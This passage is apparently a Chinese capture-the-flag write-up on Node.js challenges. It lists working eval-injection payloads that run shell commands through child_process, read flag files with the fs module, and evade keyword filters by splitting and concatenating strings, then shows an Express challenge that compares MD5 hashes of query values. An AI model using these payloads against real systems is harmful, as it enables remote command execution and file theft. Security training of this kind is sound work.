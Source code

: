 [child_process 子进程 | Node.js API 文档 (nodejs.cn)](http://nodejs.cn/api/child_process.html#child_processexeccommand-options-callback)

发现exec返回的是

![](https://img-blog.csdnimg.cn/bcd70f18cb2d471da1b7ce45f4a9b10a.png#pic_center)
通过查找所有可替换用法 `execSync` `spawnSync`

spawnSync():

![](https://img-blog.csdnimg.cn/8d4f301a8c344224ada47b1e3fcb106d.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

Payload:
```
法一：系统命令
?eval=require('child_process').execSync('ls').toString();
?eval=require('child_process').spawnSync('cat',['fl00g.txt']).output;
?eval=require('child_process').spawnSync('cat',['fl00g.txt']).stdout;
?eval=global.process.mainModule.constructor._load('child_process').exec('ls');
```

```
法二：
文件操作
?eval=require('fs').readdirSync('.');
?eval=require('fs').readFileSync('fl001g.txt');
```

[Node.js 文件系统模块 (nodejs.cn)](http://nodejs.cn/learn/the-nodejs-fs-module)

![](https://img-blog.csdnimg.cn/128a8a59555a4938a35dd05c09984d0e.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBARmYuY2hlbmc=,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

```
法三 拼接
'+' 要urlencode一下
?eval=var a="require('child_process').ex";var b="ecSync('ls').toString();";eval(a%2Bb); 
?eval=require('child_process')['ex'%2B'ecSync']('cat f*')
```

# 367-md5
```js
var express = require('express');
var router = express.Router();
var crypto = require('crypto');

function md5(s) {
  return crypto.createHash('md5')
    .update(s)
    .digest('hex');
}

/* GET home page. */
router.get('/', function(req, res, next) {
  res.type('html');
  var flag='xxxxxxx';
  var a = req.query.a;
  var b = req.query.b;
  if(a && b && a.length===b.length && a!==b && md5(a+flag)===md5(b+flag)){
  	res.end(flag);
  }else{
  	res.render('index',{ msg: 'tql'});
  }
  
});

module.exports = router;
```